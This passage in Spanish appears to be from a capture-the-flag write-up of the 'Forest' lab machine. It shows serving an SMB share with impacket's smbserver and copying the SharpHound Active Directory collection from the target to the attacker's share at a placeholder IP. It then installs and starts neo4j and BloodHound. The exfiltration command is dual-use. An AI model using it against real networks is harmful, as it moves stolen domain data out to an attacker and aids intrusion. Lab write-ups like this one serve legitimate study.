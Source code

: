 Nos compartimos por medio de samba (smbserver.py) nuestra carpeta con el siguiente comando: 

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![/assets/images/Forest/Untitled%2017.png](/assets/images/Forest/Untitled%2017.png)

![/assets/images/Forest/Untitled%2018.png](/assets/images/Forest/Untitled%2018.png)

Nos hemos conectado y estamos compartiendo esa carpeta para ahora pasarnos el .zip creado con SharpHound:

`copy <NOMBREDELZIP> \\<IP>\<DIRNAME>`

![/assets/images/Forest/Untitled%2019.png](/assets/images/Forest/Untitled%2019.png)

Ahora tendremos que tener instalado el BloodHound en nuestra maquina, para ello hacemos:

`apt-get install neo4j`

Una vez se descargue:

`neo4j console`

Cuando se inicie  abrimos el navegador y vamos a :

http://localhost:7474

Ponemos el usuario por defecto: u:neo4j p:neo4j

Instalamos el BloodHound:

`apt-get install BloodHound`

Y lo iniciamos : `bloodhound`
